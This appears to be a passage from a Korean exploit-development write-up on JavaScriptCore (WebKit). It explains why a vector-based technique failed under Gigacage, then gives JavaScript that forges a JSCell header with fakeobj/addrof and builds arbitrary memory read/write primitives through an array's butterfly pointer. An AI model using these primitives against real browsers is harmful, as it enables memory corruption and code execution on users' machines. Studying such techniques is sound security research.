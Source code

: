 
그러나 이 문제에서는 read/write 가 동작하지 않을 뿐만 아니라, fakeobj 로 얻은 객체에 값을 넣어 보면 우리가 지정한 vector 객체가 아닌 전혀 엉뚱한 주소에 저장되는 것을 알 수 있었다.  

의문을 품고 많은 시간을 들여 디버깅을 진행했으나, 2016년-2018년 사이에 웹킷 구조 변화로 인해 전과 같은 공격은 어려울 것이라는 결론을 내렸으며  
실제로 프랙 원작자(@saelo)를 통해 `GigaCage` 라는 보호기법이 추가되었다는 것을 확인할 수 있었다.

`Gigacage` 에 대해서는 향후에 별도로 정리할 예정이다.


### `butterfly` - success

`vector` 대신 `butterfly`, 즉 fakeObj 로 얻은 객체 컨테이너 두번째 qword 값을 이용한다.  
butterfly 를 사용하는 객체를 만들기 위해 Array 타입의 객체를 만들고 속성(Proterty)를 추가한다.

```javascript

    var victim = [];
    victim.prop = 31337;
```

```javascript
    var JSCellHeader = new Int64([
        0xef, 0xbe, 0xad, 0xde, // TypedArray가 아닌 객체에선 무의미함
        0x06,		                // DoubleShape
        0x2c,		                // Float64ArrayType
        0x08,		                // OverridesGetOwnPropertySlot
        0x01		                // DefinitelyWhite
    ]);

		// butterfly 를 victim으로 설정한다
    var container = {
        header: JSCellHeader.asJSValue(),
        butterfly: victim
    };

		var hax = fakeobj(Add(addrof(container), 0x10));
    var origButterfly = hax[1];


		// read/write 를 위해 객체의 두번째 qword 인 butterfly 를 활용한다.
		read64(addr) {
            hax[1] = Add(addr, 0x10).asDouble();
            return this.addrof(victim.pointer);
        },

		// Write an int64 to the given address.
     writeInt64(addr, int64) {
            hax[1] = Add(addr, 0x10).asDouble();
            victim.pointer = int64.asJSValue();
    },
```



## pwn
